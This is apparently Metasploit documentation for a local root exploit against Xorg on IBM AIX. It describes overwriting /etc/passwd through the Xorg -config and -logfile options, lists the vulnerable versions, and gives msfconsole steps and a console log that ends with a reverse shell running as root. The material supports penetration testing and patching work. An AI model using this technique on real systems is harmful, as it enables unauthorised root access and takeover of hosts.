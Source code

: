 ## Description

This module is a port of the OpenBSD X11 Xorg exploit to run on AIX. A permission check flaw exists for -modulepath and -logfile options when starting Xorg. This allows unprivileged users that can start the server the ability to elevate privileges and run arbitrary code under root privileges. This module has been tested with AIX 7.1 and 7.2, and should also work with 6.1. Due to permission restrictions of the crontab in AIX, this module does not use cron, and instead overwrites /etc/passwd in order to create a new user with root privileges. All currently logged in users need to be included when /etc/passwd is overwritten, else AIX will throw 'Cannot get "LOGNAME" variable' when attempting to change user. The Xorg '-fp' parameter used in the OpenBSD exploit does not work on AIX, and is replaced by '-config', in conjunction with ANSI-C quotes to inject newlines when overwriting /etc/passwd.

## Vulnerable Application

This module has been tested successfully on:

* AIX 7.1 with Xorg 7.2.3.0
* AIX 7.2 with Xorg 7.2.3.0

This table lists all vulnerable Xorg versions:

| Lower Level | Upper Level |
|-------------|-------------|
| 6.1.9.0     | 6.1.9.100   |
| 7.1.4.0     | 7.1.4.30    |
| 7.1.5.0     | 7.1.5.31    |
| 7.2.0.0     | 7.2.0.1     |
| 7.2.1.0     | 7.2.1.0     |
| 7.2.2.0     | 7.2.2.0     |
| 7.2.3.0     | 7.2.3.15    |

## Verification Steps

1. `msfconsole`
2. Get a session
3. `use exploit/aix/local/xorg_x11_server`
4. `set session <session>`
5. `set LHOST <lhost>`
6. `set LPORT <lport>`
7. `set writabledir <writabledir>`
8. `run`

## Options

**SESSION**

Which session to use, which can be viewed with `sessions`

**WritableDir**

A writable directory file system path. (default: `/tmp`)

## Scenarios
https://vimeo.com/372193921

```
msf exploit(aix/local/xorg_x11_server) > set session 1
session => 1
msf exploit(aix/local/xorg_x11_server) > set writabledir /tmp
writabledir => /tmp
msf exploit(aix/local/xorg_x11_server) > run

[*] Started reverse TCP handler on 0.0.0.0:8888
[*] Xorg version is 7.2.3.0
[*] Retrieving currently logged in users
[*] Writing to /tmp/wow.ksh
[*] Backing up /etc/passwd to /tmp/passwd.backup
[*] Executing /tmp/wow.ksh
[*] Checking if we are root
[+] Got root!
[*] Writing to /tmp/wowee.ksh
[*] Executing shell payload
[*] Restoring original /etc/passwd
[*] Command shell session 2 opened (172.17.0.2:8888 -> 172.17.0.1:32948) at 2019-02-11 15:42:56 +0000
[+] Deleted /tmp/wow.ksh
[+] Deleted /tmp/passwd.backup
[+] Deleted /tmp/wowee.ksh

id
uid=0(root) gid=0(system)

```
